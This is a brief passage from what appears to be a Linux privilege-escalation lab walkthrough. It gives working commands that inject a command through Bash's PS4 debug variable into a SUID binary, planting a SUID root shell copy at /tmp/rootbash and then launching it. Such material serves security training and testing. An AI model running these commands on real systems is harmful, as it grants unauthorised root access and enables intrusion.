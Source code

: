 Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.  

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`
